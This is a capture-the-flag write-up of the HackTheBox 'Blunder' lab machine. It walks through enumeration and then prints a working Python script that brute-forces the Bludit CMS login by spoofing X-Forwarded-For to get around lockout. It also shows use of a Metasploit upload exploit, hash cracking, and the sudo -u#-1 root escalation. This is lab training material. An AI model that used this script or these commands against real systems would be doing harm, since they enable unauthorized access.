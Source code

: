 ```yaml
---
title: Blunder Writeup - Machine
author: Sujit Suryawanshi
date: 2020-07-29 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, blunder]
---
```


<h2 data-toc-skip>Writeup of Blunder Machine (HackTheBox)</h2>


![Desktop View]({{ "/assets/img/blunder-main.png" | relative_url }})

Blunder machine released on 30 May 2020 on HackTheBox platform and created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858).
It's nice machine which hosted CMS named Bludit. So let's move forward and p4wn this awesome box.

---

<h3 data-toc-skip>Starting with Nmap</h3>

#### sudo nmap -sV -sC -T4 -p- 10.10.10.191

![Desktop View]({{ "/assets/img/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -p- for All Ports and -T4 for Timing. As you can see there are two ports open that is port 21 and 80. Port 21 was ftp but closed and port 80 has hosted webserver which has Apache httpd 2.4.41 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.



After opening the the website in browser we found that it was using Bludit CMS.

![Desktop View]({{ "/assets/img/blunder-cms.png" | relative_url }})

Continuing to enumeration we started fuzzing the web directory using ffuf tool.


![Desktop View]({{ "/assets/img/blunder-ffuf.png" | relative_url }})

After doing some web fuzzing, We found admin panel of Bludit CMS hosted on url <http://10.10.10.191/admin/>

![Desktop View]({{ "/assets/img/blunder-cms-admin.png" | relative_url }})

As we don't know the username and password of this admin panel, We continued fuzzing on website using ffuf and some common extensions like php, txt etc.

![Desktop View]({{ "/assets/img/blunder-ffuf-1.png" | relative_url }})

After some fuzzing we got one todo.txt file hosted on webserver which has one note "Inform fergus that the new blog needs images - PENDING"

So here we got the one of the user's username that is "fergus"

We found the user but we don't know the password so, For password we used one tool called "CeWl".

So basically what this tool does, It generates wordlist from any url/webpage.
In our case, We used this tool on webpase and generated wordlist.

cewl http://10.10.10.191/

![Desktop View]({{ "/assets/img/blunder-cewl.png" | relative_url }})

Nice, CeWl generated more than 300 passwords.
Now we have username and wordlist of passwords, Let's move forward.

After doing some google about Bludit CMS, We found that Bludit CMS was vulnerable for password bruteforce attack.

Checking one [issue](https://github.com/bludit/bludit/pull/1090) on Github about Bludit, We got one python script to bruteforce the password.

To bruteforce the password We needed to modify the script.

```python
#!/usr/bin/env python3
import re
import requests
#from future import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/home/sujit/Desktop/HTB/Blunder/pass.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

In above code, I used pass.txt file as wordlist and username as "fergus"

![Desktop View]({{ "/assets/img/blunder-bruteforce-1.png" | relative_url }})

After bruteforce, We got the password of user "fergus" as "RolandDeschain"

![Desktop View]({{ "/assets/img/blunder-bruteforce-2.png" | relative_url }})

Now we have both username and password.
Let's login with username as “fergus” and password as  “RolandDeschain”

![Desktop View]({{ "/assets/img/blunder-bludit-login.png" | relative_url }})

We successfully logged in into Bludit CMS.
After some Google, I found that there is file upload vulnerability available for Bludit CMS and also there is metasploit module available for the same.

Name of the Metasploit module : linux/http/bludit_upload_images_exec

Lets fire up metasploit and use the above exploit.

We need to set some required data (option) for this exploit.

![Desktop View]({{ "/assets/img/blunder-metasploit.png" | relative_url }})

Here I set BLUIDITPASS, BLUIDITUSER, RHOSTS, LHOST options respectively to exploit the vulnerability.

After setting up options I ran exploit command to run the exploit and voila!!!, We got initial shell..

![Desktop View]({{ "/assets/img/blunder-metasploit-1.png" | relative_url }})

Now let's start enumeration to get user.

While doing enumeration, I checked some documentation of Bludit CMS in which I found that the CMS had database folder.

![Desktop View]({{ "/assets/img/blunder-cms-structure.png" | relative_url }})

In this database folder I got one PHP file named users.php which contains password hash of another user “hugo”

![Desktop View]({{ "/assets/img/blunder-password-hash.png" | relative_url }})

After using online password cracker, I got "Password120" as password for user “hugo”

![Desktop View]({{ "/assets/img/blunder-password-hash-1.png" | relative_url }})

After login using above password I was able to get user successfully.

![Desktop View]({{ "/assets/img/blunder-user.png" | relative_url }})

Here we got user.txt.
Now it's time for Privilage Escalation.

I ran sudo -l to list out what is allowed to run as sudo without password

![Desktop View]({{ "/assets/img/blunder-privesc.png" | relative_url }})

Here the user was allowed to run /bin/bash without password.

I used sudo -u#-1 bash command to get into root.

The above command will trigger -1 user which is not there so we will get a root shell directly.

You'll get more information about this PrivEsc vulnerability [here](https://www.sudo.ws/alerts/minus_1_uid.html).

![Desktop View]({{ "/assets/img/blunder-root.png" | relative_url }})

And here we rooted Blunder successfully.

Thanks for reading this writeup and all suggestions are welcome.
